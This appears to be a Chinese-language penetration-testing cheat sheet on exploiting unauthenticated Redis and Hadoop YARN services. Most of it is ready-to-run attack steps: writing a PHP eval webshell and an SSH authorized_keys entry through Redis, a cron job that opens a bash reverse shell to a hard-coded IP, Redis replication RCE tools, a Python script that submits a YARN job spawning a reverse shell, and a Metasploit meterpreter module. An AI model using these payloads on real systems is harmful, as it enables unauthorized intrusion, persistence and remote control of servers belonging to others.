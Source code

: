 # 未授权访问漏洞

## redis

### redis简介

- 键值数据库

- 架构

  redis服务器：存储数据，处理客户端请求，执行数据结构操作

  redis客户端：与服务器交互命令行工具，执行redis命令

- 默认端口：6379

- 常用命令

  Linux安装：

  ```bash
  apt install redis-tools
  ```

  连接：

  ```bash
  redis-cli -h [hostname] -p [port] -a [password]
  ```

  redis命令

  ```bash
  # 基本数据操作
  set key 'aaa'    #设置键key的值为字符串aaa
  get key    #获取键key的值
  set int 12    #设置键int的值为12
  incr int    #int增加1
  keys *    #列出当前数据库中所有键
  
  # 配置
  config set dir /home/test    #设置工作目录
  config set dbfilename filename    #设置备份文件名(可以为任意后缀名)
  config get dir    #获取工作目录
  config get dbfilename    # 获取备份文件名
  
  #数据库管理
  save    #备份数据到磁盘
  flushall    #删除所有数据
  del key    #删除键为key的数据
  ```

  

### 漏洞利用

#### 未授权访问漏洞

##### 写webshell

- 条件

  知道根目录绝对路径

  有写权限

- 写webshell

  ```bash
  redis-cli -h [hostname] -p [port]
  config set dir /var/www/html
  config set dbfilename shell.php
  set x "<?php @eval($_POST['cmd']);?>"
  save
  ```

  shell成功写入后就可以访问或者用工具连接

##### 写SSH公钥

1. 攻击端生成SSH公钥和私钥

   ```bash
   ssh-keygen -q -t rsa -f /root/.ssh/id_rsa -N ''
   ```

2. 在id_rsa.pub公钥前后加上换行符，保存

   ```bash
   (echo -e "\n\n"; cat ./id_rsa.pub; echo -e "\n\n") > ./foo.txt
   ```

3. 读取foo.txt中的内容，存入redis

   ```bash
   cat ./foo.txt | redis-cli -h [hostname] -p [port] -x set x
   redis-cli -h [hostname] -p [port] 
   get x
   config set dir /root/.ssh
   config set dbfilename "authorized_keys"
   save
   
   # ssh连接
   ssh root@hostname -p [port] -i ~/.ssh/id_rsa
   ```

   

##### 定时任务反弹shell

- 定时任务位置

  |     系统      |          定时任务位置           |             例子              |
  | :-----------: | :-----------------------------: | :---------------------------: |
  | debian ubuntu | /var/spool/cron/crontabs/用户名 | /var/spool/cron/crontabs/root |
  | centos redhat |     /var/spool/cron/用户名      |     /var/spool/cron/root      |

- 写入定时任务

  ```bash
  redis-cli -h [hostname] p [port]
  config dir /var/spool/cron
  config dbfilename root
  set aaa "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/124.70.99.192/1111 0>&1\n\n"
  save
  ```

- nc 监听端口 

  ```bash
  nc -lvvp 1111
  ```

#### 主从复制RCE

##### RabR

- github搜索RabR可以找到

  ```bash
  python3 redis-attack.py -r target-url -p port -L 攻击机ip --brute
  # 选择对应的选项getshell或者反弹shell
  ```

  

##### redis-rce

1. 下载redis-rce脚本

   github搜索redis-rce

2. 编译module.so文件

   ```bash
   git clone https://gitee.com/yijingsec/RedisModules-ExecuteCommand
   cd RedisModules-ExecuteCommand
   make
   ```

   

3. 将编译好的module.so文件复制到redis-rce文件夹中

4. 脚本利用

   ```bash
   python3 redis-rce.py -r target-url/ip -p port -L attack-ip -f module.so
   # 选择对应序号从而选择getshell或者反弹shell
   ```


## Hadoop

### 漏洞探测

- fofa

  app="APACHE-hadoop-YARN"

- POST请求

  向http://ip:port/ws/v1/cluster/apps/new-application发送POST请求，响应返回application-id，存在漏洞

### 漏洞利用

#### 利用脚本

```python
import requests
import json

# 漏洞目标 URL
target = 'http://192.168.81.127:8088/'
# 反弹Shell 攻击机IP地址
lhost = '192.168.81.238'

url = f'{target}ws/v1/cluster/apps/new-application'
resp = requests.post(url).content.decode('utf-8')
resp_json = json.loads(resp)

app_id = resp_json['application-id']
url = f'{target}ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {'command': f'/bin/bash -i >& /dev/tcp/{lhost}/5566 0>&1'}
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

#### 利用模块

```bash
msfconsole -q
use exploit/linux/http/hadoop_unauth_exec
set rhost target-ip
set payload linux/x64/meterpreter/reverse_tcp
set lhost attack-ip
set lport attack-port
exploit
```

